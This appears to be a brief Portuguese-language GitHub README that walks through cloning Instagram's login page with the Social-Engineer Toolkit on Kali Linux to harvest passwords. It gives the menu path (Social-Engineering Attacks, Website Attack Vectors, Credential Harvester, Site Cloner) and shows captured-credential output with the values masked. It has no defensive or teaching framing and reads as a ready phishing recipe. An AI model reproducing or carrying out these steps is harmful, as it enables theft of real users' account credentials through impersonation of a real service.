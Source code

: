 # Phishing para captura de senhas do Instagram

### Ferramentas Utilizadas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.instagram.com

### Resutados
                                        \/\/\/\/\/\/\/\/
POSSIBLE USERNAME FIELD FOUND: username=XXXXXXX@XXXXXXXX                                                                                         
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.

[*] WE GOT A HIT! Printing the output:                                          \/\/\/
POSSIBLE PASSWORD FIELD FOUND: enc_password=#PWD_INSTAGRAM_BROWSER:0:1734392052:XXXXXXX   


./Screenshot_2024-12-16_20_47_46.png



